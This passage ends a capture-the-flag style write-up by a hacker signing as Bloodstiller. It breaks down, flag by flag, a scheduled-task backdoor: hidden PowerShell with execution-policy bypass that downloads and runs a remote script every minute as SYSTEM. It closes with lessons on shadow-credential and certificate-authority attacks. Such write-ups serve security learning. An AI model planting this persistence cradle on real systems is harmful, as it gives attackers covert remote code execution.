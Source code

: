 -   **Double check by disconnecting &amp; seeing if it re-connects**:
    -   It does:
    -   {{< figure src="/ox-hugo/2024-11-06-162211_.png" >}}


#### Scheduled Task Backdoor Utilizing Download Cradle Command Breakdown: {#scheduled-task-backdoor-utilizing-download-cradle-command-breakdown}

-   `schtasks /create`
    -   Creates a new scheduled task on Windows.
-   `/tn LetMeIn`
    -   Sets the task name to `LetMeIn`.
    -   This name is how the task will appear in the Task Scheduler.
-   `/tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe`
    -   Specifies the action that the task will execute.
    -   `powershell.exe`: Starts PowerShell.
    -   **Arguments passed to powershell**:
        -   `-WindowStyle hidden`: Runs the task in a hidden window to prevent showing the PowerShell window.
        -   `NoLogo -NonInteractive -ep bypass -nop`: PowerShell flags to suppress output and allow script execution bypassing restrictions.
        -   `IEX ((New-Object Net.WebClient).DownloadString(...))`: Uses `Invoke-Expression` to download and immediately execute the script.
        -   `/sc minute /mo 1`: Sets the task to run every 1 minute.
        -   `/ru System`: Runs the task under `System` privileges.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1. I learned alot more about shadow-credential attacks and CA attacks. 

2. I really enjoyed the process of how layered and different the attack chain was for this compared to other boxes I have done. 


    
### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1. Not so many, getting better....I hope



## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


